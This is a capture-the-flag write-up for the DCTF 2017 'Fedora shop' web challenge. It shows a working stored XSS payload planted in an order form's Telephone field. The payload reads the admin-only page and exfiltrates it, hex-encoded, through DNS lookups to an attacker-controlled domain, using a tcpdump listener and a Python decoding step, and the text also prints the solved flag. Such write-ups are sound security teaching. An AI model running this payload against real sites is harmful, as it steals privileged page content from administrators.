

## Fedora shop

### Description:
After a series of attacks against their administrators they firewalled their facility. Will this stop you?

https://fedora-shop.dctf-f1nals-2017.def.camp/

### Author: 
Lucian Nitescu, Anatol

### Stats: 
374 point / 7 solvers

### Solution:  

The challenge started with this simple website:


When we send the order (on "Complete Order") we can exploit an stored XSS vulnerability in the "Telephone" input field. Example:


After "Complete Order":


Proof of stored XSS:


On this page we can observe two important things. First we can see that our XSS vulnerability exploit was successful and that your order was visited by an admin and the status has been changed to "Shipped!" from "Pending approval". But where is our flag?

The flag is on "/admin.php" and can be accessed only by the admin. Example:


Also any http request or ways of data exfil using stored XSS that require http request have been firewalled (as stated in the description of the challenge). One way of getting the flag from "admin.php" page is to use DNS requests on port 53. Example:

On our exfil server we will listen for DNS requests using the following command:

```
tcpdump -vn udp port 53 -i ens3
```

As attack vector for only first 25 characters (50 hexa) of the flag we will use:

* Note that the "Telephone" input has to be stored is the DB and should never exceed 255 characters.

```
<script>setTimeout(function(){$.get('/admin.php',function(d){var h='';for(i=0;i<d.length;i++){h+=("00"+d.charCodeAt(i).toString(16)).slice(-2);}$(document.body).append($('').attr('src','//t'+h.substring(0,50)+'.dns.tux.ro'));});},999);</script>
```

The above script will be executed when the Admin will visit the orders page and it will also send the DNS request to our server, which will look like:



Which stands for:

```
lucian@nitescu:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> buf = "444354467b3934366436636131366332663337306237343563"
>>> buf.decode("hex")
'DCTF{946d6ca16c2f370b745c'
>>> 
```

Now we can just change the script to get the next 25 characters of the flag until we get this:

DCTF{946d6ca16c2f370b745caf00f45ff2ac3656a3dcfee5d35cd8e853dc6d13470d}